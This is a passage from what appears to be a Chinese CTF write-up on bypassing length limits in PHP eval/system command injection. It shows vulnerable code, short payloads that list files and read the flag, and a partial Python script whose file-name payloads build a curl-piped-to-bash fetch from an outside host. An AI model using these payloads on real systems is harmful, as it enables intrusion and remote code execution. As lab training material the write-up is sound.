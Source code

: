 ```
die=0&clear=;echo `ls` > a.txt;
die=0&clear=;echo `tac flag.php` > a.txt;
```



## 419-长度限制17

```php
$code = $_POST['code'];
if(strlen($code) < 17){
    eval($code);
}
```

限制长度

```
code=echo `ls`;
code=echo `tac f*`;
```



## 420-长度限制8

```php
$code = $_POST['code'];
if(strlen($code) < 8){
    system($code);
}
```

flag在上级目录

```
code=ls ../
code=nl ../*
```

还有这种：[命令注入长度限制绕过 - ctrl_TT豆 - 博客园 (cnblogs.com)](https://www.cnblogs.com/-chenxs/p/11981586.html)

从y4师傅那偷个脚本

```python
import requests
import time

payload = [
    '>sh ',
    '>ba\\',
    '>\|\\',
    '>2\\',
    '>2x\\',
    '>xxx.\\',
    '>9x.\\',
    '>1\\',
    '>2.\\',
    '>4\\',
    '>\ \\',
    '>curl\\',
    # '>cu\\',
]

for i in payload:
    # assert len(i) <= 8
    data = {
        'code': str(i)
    }
```
